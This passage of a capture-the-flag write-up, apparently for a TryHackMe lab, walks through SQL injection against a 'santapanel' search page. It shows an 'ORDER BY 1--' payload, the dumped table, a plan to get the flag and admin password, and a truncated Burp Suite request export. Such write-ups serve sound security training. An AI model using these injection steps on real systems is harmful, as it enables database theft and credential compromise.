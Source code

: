 ```SQL
'ORDER BY 1--
```
>>NOW WE GET THIS INFO IN THE SAME PAGE

Gift 	                       Child
10 McDonalds meals 	        Thomas
TryHackMe Sub 	            Kenneth
air hockey table 	          Christopher
bike 	                      Matthew
books 	                    Richard
candy 	                    David
chair 	                    Joshua
fazer chocolate 	          Donald
finnish-english dictionary 	James
github ownership 	          Paul
iphone 	                    Robert
laptop 	                    Steven
lego star wars 	            Daniel
playstation 	              Michael
rasberry pie 	              Andrew
shoes 	                    James
skateboard 	                John
socks 	                    Joseph
table tennis 	              Anthony
toy car 	                  Charles
wii 	                      Mark
xbox 	                      William

>>NOW WE "flag" AND "admin" PASSWORD.
>>SO INTERCEPT THE DATABASE AREA WITH BURPSUITE AND SEND IT TO REPEATER AND SAVE THE ITEM.
>>INTERCEPTED TRAFFIC SAVED AS "panel.txt" 
>>THIS IS THE SAVED FORMAT

```bash
<?xml version="1.0"?>
<!DOCTYPE items [
<!ELEMENT items (item*)>
<!ATTLIST items burpVersion CDATA "">
<!ATTLIST items exportTime CDATA "">
<!ELEMENT item (time, url, host, port, protocol, method, path, exten$
<!ELEMENT time (#PCDATA)>
<!ELEMENT url (#PCDATA)>
<!ELEMENT host (#PCDATA)>
<!ATTLIST host ip CDATA "">
<!ELEMENT port (#PCDATA)>
<!ELEMENT protocol (#PCDATA)>
<!ELEMENT method (#PCDATA)>
<!ELEMENT path (#PCDATA)>
<!ELEMENT extension (#PCDATA)>
<!ELEMENT request (#PCDATA)>
<!ATTLIST request base64 (true|false) "false">
<!ELEMENT status (#PCDATA)>
<!ELEMENT responselength (#PCDATA)>
<!ELEMENT mimetype (#PCDATA)>
<!ELEMENT response (#PCDATA)>
<!ATTLIST response base64 (true|false) "false">
<!ELEMENT comment (#PCDATA)>
]>
<items burpVersion="2021.8.2" exportTime="Fri Oct 29 07:28:54 BST 20$
  <item>
    <time>Thu Jan 01 01:00:00 GMT 1970</time>
    <url><![CDATA[http://10.10.101.106:8000/santapanel?search=pratha$
    <host ip="">10.10.101.106</host>
    <port>8000</port>
```